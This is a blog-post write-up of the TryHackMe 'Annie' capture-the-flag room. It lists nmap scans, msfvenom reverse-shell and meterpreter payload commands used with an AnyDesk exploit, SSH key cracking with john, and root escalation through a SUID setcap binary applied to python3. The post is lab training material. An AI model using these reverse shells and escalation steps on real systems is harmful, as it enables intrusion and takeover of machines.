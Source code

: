 ```yaml
---
layout: post
title: Box - Annie
published: true
---
```


TryHackMe CTF Box - Remote access comes in different flavors.

[https://tryhackme.com/room/annie](https://tryhackme.com/room/annie)

![](/assets/annie01.jpg)

* * *

## Recon - Research - Exploit 

##   Nmap Scans

- ``sudo nmap -Pn -sS -p- 10.10.7.95 -vvv``
- ``sudo nmap -sC -sV -O 10.10.7.95 -p22,7070,38491,42043``

- We can see ssh and "realserver" are open

* * * 

## Anydesk Client

```shell
PORT     STATE SERVICE         VERSION
7070/tcp open  ssl/realserver?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=AnyDesk Client
```

- [CVE-2020-13160](https://www.exploit-db.com/exploits/49613)

1. ``msfvenom -p linux/x64/shell_reverse_tcp LHOST=ip LPORT=7777 -b "\x00\x25\x26" -f python -v shellcode``
2. inset into payload and setup ``nc -nvlp 7777``

![](/assets/annie02.png)

* * * 

## PrivESC

1. upgrade shell ``python3 -c 'import pty; pty.spawn("/bin/bash")'``
2. setup more stable staged meterpreter shell and wget it over ``msfvenom -p linux/x64/meterpreter/reverse_tcp  LHOST=10.x.x.x LPORT=5555 -f elf > meterpreter.elf``
3. ``msfconsole use exploit/multi/handler`` & ``set payload linux/x64/meterpreter/reverse_tcp``
4. annie has id_rsa keys available in her home lets download in metasploit and then feed them to john
5. ``ssh2john id_rsa > anniejohn``
6. ``john anniejohn --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

![annie123](/assets/annie03.png)

Now that we have annie ssh to make things easiar we can login there and continue with privesc

1. linpeas.sh
2. https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/

```shell
-rwsr-xr-x 1 root root 10K Nov 16  2017 /sbin/setcap (Unknown SUID binary)
```

setcap allows us to set special permissions on files allowing us to privesc. Is we set cap_setuid+ep into a binary it can lead to privilege escalation. See the process in below pic.

![](/assets/annie04.png)

1. We check permissions on python3 as we can use that to spawn a root shell with SUID
2. It doesnt have the special permission so we can copy it from its directory to annies and setcap cap_setuid+ep and spawn a shell.

* * * 

